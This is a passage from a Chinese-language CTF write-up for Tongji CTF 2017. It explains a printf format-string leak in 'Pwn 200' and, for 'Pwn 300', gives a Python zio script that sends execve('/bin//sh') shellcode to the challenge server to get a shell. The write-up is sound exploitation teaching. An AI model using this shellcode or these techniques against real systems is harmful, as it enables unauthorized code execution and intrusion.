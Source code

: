 发现图中`printf`存在格式化字符串漏洞。再看一下`readFile()`：

![]({{ site.url }}/images/TongjiCTF2017wp/pwn200-readfile.png)

是用来把flag读入内存的。

接下来就是寻找当执行`call printf`时栈顶距flag所在字符数组的偏移。

使用gdb调试发现，程序会把flag首地址存储在一个指针变量中，该变量距`printf`栈顶为6个偏移（由于该指针变量在代码中其他地方并未使用，所以仅仅使用IDA做反编译静态分析是看不到的。当然也可以直接通过打印栈内容来获得flag，但是由于程序限制了最多输入6个字符，所以需要多次拼凑`%*$x`之类的格式化字符串才可以）：

![]({{ site.url }}/images/TongjiCTF2017wp/pwn200-gdb-point.png)

![]({{ site.url }}/images/TongjiCTF2017wp/pwn200-gdb-off.png)

所以最终可以获得flag：

![]({{ site.url }}/images/TongjiCTF2017wp/pwn200-pwn.png)

关于格式化字符串漏洞可以参考：`http://bobao.360.cn/learning/detail/3654.html`。

(Behind every great fortune there is a crime)

#### Pwn 300 C语言超级程序设计

```
题目：完，看来遇上大灰阔了。

nc 10.10.175.209 10003
```

考查最基本的传入shellcode获取shell。

IDA中直接对`Kid()`函数F5，发现失败：

![]({{ site.url }}/images/TongjiCTF2017wp/pwn300-f5.png)

换到反汇编界面看一下：

![]({{ site.url }}/images/TongjiCTF2017wp/pwn300-disasm.png)

发现程序先要求输入一段字符，然后竟然有`call eax`，说明把输入的东西当做一段指令执行。

用gdb-peda看一下程序的漏洞缓解措施：

![]({{ site.url }}/images/TongjiCTF2017wp/pwn300-checksec.png)

`N^X`保护没有打开，说明可以直接传入shellcode执行。且`CANARY`打开，说明不太容易通过覆盖返回地址来达到劫持控制流的目的。到`www.exploit-db.com/`随便找一个短一些的shellcode，用`zio`写一个脚本：

```python
#!/usr/bin/env python

from zio import *

IP = "10.10.175.209"
port = 10003

shellcode = "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
conn = zio((IP, port))
#conn = zio("./pwn300")
conn.writeline(shellcode)
conn.interact()
```
